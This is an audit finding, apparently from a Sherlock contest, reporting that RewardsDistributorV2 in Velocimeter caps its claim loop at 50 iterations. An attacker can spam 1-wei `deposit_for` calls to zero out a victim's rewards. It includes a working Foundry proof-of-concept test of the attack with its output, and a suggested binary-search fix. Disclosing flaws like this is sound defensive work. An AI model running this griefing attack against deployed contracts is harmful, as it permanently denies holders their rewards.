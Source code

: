 Wonderful Coconut Corgi

High

# Attacker can grief anyone by permanently blocking their rewards

## Summary
A griefing vulnerability exists in the RewardsDistributorV2 contract that can permanently block token owners from claiming their rewards. This vulnerability can be exploited by a malicious user who repeatedly calls the `VotingEscrow.deposit_for() `function on a specific tokenId.

## Vulnerability Details
- The `_claim()` function in the `RewardsDistributorV2` contract calculates and distributes the amount of rewards claimable by users.
- To determine the amount of rewards to distribute to the user, the function must first locate the most recent userPoint that was recorded before the `last week_cursor.` (Then, based on their share compared to the total supply of ve and the current rate (tokens_per_week), rewards are distributed.)
- This is done by using a for loop, which starts from the last recorded `user_epoch` and runs until it finds a relevant `user_point` (point with timestamp greater than the last week cursor).
- This is done using a for loop, which starts from the last recorded user_epoch and runs until it finds a relevant `user_point` (a `user_point` with the highest timestamp value for given tokenId that is less than `last week_cursor`).

```solidity
for (uint i = 0; i < 50; i++) {
    if (week_cursor >= _last_token_time) break;

    if (week_cursor >= user_point.ts && user_epoch <= max_user_epoch) {
        user_epoch += 1;
        old_user_point = user_point;
        if (user_epoch > max_user_epoch) {
            user_point = IVotingEscrow.Point(0,0,0,0);
        } else {
            user_point = IVotingEscrow(ve).user_point_history(_tokenId, user_epoch);
        }
    } else {
        int128 dt = int128(int256(week_cursor - old_user_point.ts));
        uint balance_of = Math.max(uint(int256(old_user_point.bias - dt * old_user_point.slope)), 0);
        if (balance_of == 0 && user_epoch > max_user_epoch) break;
        if (balance_of != 0) {
            to_distribute += balance_of * tokens_per_week[week_cursor] / ve_supply[week_cursor];
        }
        week_cursor += WEEK;
    }
}
```
- However, the loop is limited to only 50 iterations. 
- If the total number of `user_point` exceeds this limit, the `_claim()` function will not be able to process beyond the 50th point, thus quitting before it finds the relevant point (i.e, never reaching the else block of the above snippet), resulting in `to_distribute` being set to 0.
- As a result, if there are more than 50 `user_point`, the function will fail to calculate and distribute any rewards.
- An attacker can achieve this state for any tokenId by repeatedly invoking the `VotingEscrow.deposit_for()` function.
- By making numerous deposits, even with minimal amounts such as 1 wei, the attacker can generate a large number of `user_point` associated with the tokenId.
- Consequently, the owner of the targeted TokeID will be permanently blocked from claiming their rewards.

## Impact
- Anyone can grief any user by permanently blocking their rewards in the contract.
- Given how easy it is to perform the attack and the severity of the impact, I am submitting this under high severity.

## Code Snippet
- https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/RewardsDistributorV2.sol#L195

## POC
- Place the test in the `RewardsDistributorV2.t.sol` file of the test suite and run it using the command: "forge test --mt testGriefingRewardsDistribution -vv "

```solidity

function testGriefingRewardsDistribution() public {

    initializeVotingEscrow();
    DAI.transfer(address(distributor), 10*TOKEN_1);

    //Victim and normal users create a lock
    flowDaiPair.approve(address(escrow), 2*TOKEN_1);
    uint victimId = escrow.create_lock(TOKEN_1,52 weeks);
    uint normalId = escrow.create_lock(TOKEN_1,52 weeks);

    //Attacker creates redudant points for victims lock, inroder to grief them
    address Attacker = address(0x123);
    deal(address(flowDaiPair), Attacker, TOKEN_1);
    vm.startPrank(Attacker);
    flowDaiPair.approve(address(escrow), TOKEN_1);
    for (uint256 i; i < 60; i++) {
        escrow.deposit_for(victimId, 1);
        vm.roll(block.number + 1);
    }
    vm.stopPrank();

    //1st Epoch Finished
    _elapseOneWeek();
    voter.distribute();

    //2nd Epoch Finished
    _elapseOneWeek();
    voter.distribute();

    //Now, victim recieves zero rewards
    uint256 victim_reward = distributor.claim(victimId);
    uint256 normal_user_reward = distributor.claim(normalId);

    console.log("victim users reward : %d", victim_reward);
    console.log("normal users reward : %d", normal_user_reward);
    
}

```
- OutPut : 

```solidity
Ran 1 test for test/RewardsDistributorV2.t.sol:RewardsDistributorV2Test
[PASS] testGriefingRewardsDistribution() (gas: 69735531)
Logs:
  victim users reward : 0
  normal users reward : 4133591048956

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 16.43ms (11.13ms CPU time)
```

## Tool used
Manual Review and foundry

## Recommendation
Implement a binary search to find the nearest `user_point` to the` last week_cursor`.